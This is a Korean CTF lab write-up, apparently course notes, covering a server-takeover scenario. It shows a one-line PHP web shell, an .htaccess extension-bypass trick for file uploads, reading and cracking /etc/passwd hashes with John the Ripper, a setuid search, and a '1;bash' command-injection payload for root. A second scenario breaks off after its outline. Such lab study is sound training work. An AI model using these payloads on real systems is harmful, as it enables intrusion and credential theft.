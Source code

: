 # CTF

25-4 CTF 개념 정리 - 시나리오

## 시나리오 1번

모 서버 장악 후, 내부에 저장된 정보를 확인하라.

**힌트**
```
1. 업로드 경로 확인
 - 임의의 파일 업로드 해보기

2. 웹 쉘 업로드 후 소스코드
   <?php system($_GET['cmd']); ?>

   Day2 파일 업로드 취약점 실습 내용
       - 1) 확장자를 우회) php -> phar, phtml 등등
       - 2) .htaccess(아파치 서버 설정 파일) 업로드 후 확장자 저장 설정 변경
             AddType application/x-httpd-php .abc .txt .xyz 등
       - vi .htaccess (.으로 시작되는 파일은 기본적으로 숨김처리 되어있음.
         view - show hidden files 체크 혹은 ls -al

3. 웹 쉘 업로드 성공 후 시스템 명령어로 flag 확인 (cat flag.php X, flag가 들어간 파일)
  - find / -name "flag*"

4.  /etc/passwd 파일
  - john the reaper (패스워드 크랙 툴)로 패스워드 알아내보기 : 크랙 하고자하는 문자열을 vi로 텍스트 파일로 저장.
  - john 파일명
리눅스 : /etc/passwd : 사용자 패스워드 정보를 가지고 있음.

5. setuid가 적용된 파일 찾기 : 인터넷 검색 활용
  - ssh 접속 명령어 : ssh id@ip
  - find / -perm ~
  - /bin/bash : 배시 쉘(터미널 쉘)로 변경

6. SetUID : 리눅스 특수 권한 파일을 실행 시에만 root 권한 획득
  - cat으로 실행시키지 말고, 해당 경로에서 ./프로그램 명으로 실행해보기
  - 커맨드 인젝션 - 권한 상승(LPE) - root 권한 획득 시, flag 값을 확인 가능
  - 명령어 이어서 쓸 때 ; 을 이용했던 것을 기억  ex) ls ; pwd
  - 특수 권한 SetUID: 파일을 실행할 때에만 파일 소유자 권한(root)을 획득할 수 있는 특수권한

7. root 계정으로 실행했던 명령어 로그 : bash history 확인

```

**kali linux 프록시 설정 끄는 법**

1. Web Browser
2. 우측 상단 햄버거 기호 클릭
3. Preferences
4. Proxy 검색
5. settings No Proxy로 바꾼 후 접속

**시나리오 흐름도**

1. 파일 업로드 기능 확인
2. 확장자 우회
3. 서버 장악
4. 계정 탈취
5. 공격 벡터 확인
6. 권한 상승
7. 정보 수집

### 1) 업로드가 가능한 경로

파일 업로드 시 유의미한 경로 발견
```
/uploads/~
```

***

### 2) 특정파일의 확장자 확인

.php .phtml .phar 확장자는 모두 차단되었음.

```
AddType application/x-httpd-php .abc .txt .xyz
```
상대 서버 /var/www/html 경로 내에 .htaccess 파일 전송 후

위 3개의 확장자 중 하나로 php 코드 전송

***

### 3) 웹 쉘 업로드 및 파일 확인

웹 쉘이 사용가능하고, find 명령어를 통해 파일의 위치를 확인.
```
find / -name flag*
```

***

### 4) 서버 특정 사용자 패스워드 획득

```
cat /etc/passwd
```
ems 계정의 해시 함수로 암호화된 비밀번호 획득

test.txt 파일에 복사한 후, 
```
john test.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
입력하여 
```
john --show test.txt
```
크래킹하여 패스워드 평문 확인

***

### 5) 서버 내 setuid 적용된 파일 확인

```
ssh ems@ip주소
```

SSH 접속 후, dumb shell을 bash shell로 전환

```
/bin/bash
```

쓸모없는 파일 제외하고 보기 기능
```
2>/dev/null
```

find 명령어로 setuid 적용된 파일 확인
```
find / -perm 4000 2>/dev/null
```

***

### 6) root 권한 획득

```
./Sub_pro
```

파일 실행시 Command Injection 공격 수행

```
1;bash
```

root 계정으로 bash shell 획득.

***
### 7) root 계정으로 실행했던 bash history 확인

root 디렉토리 하위의 .bash_history 파일 확인

```
cat /root/.bash_history
```

***

## 시나리오 2번

모 DB 서버 장악 후 유의미한 정보 확인

**힌트**
```
```

**시나리오 흐름도**

1. 취약점 확인
2. DB 정보 확인
3. 데이터 탈취
4. 관리자 계정 탈취
5. 서버 장악
6. 정보 탈취
7. 취약점 확인
8. 서버 장악

### 1) 
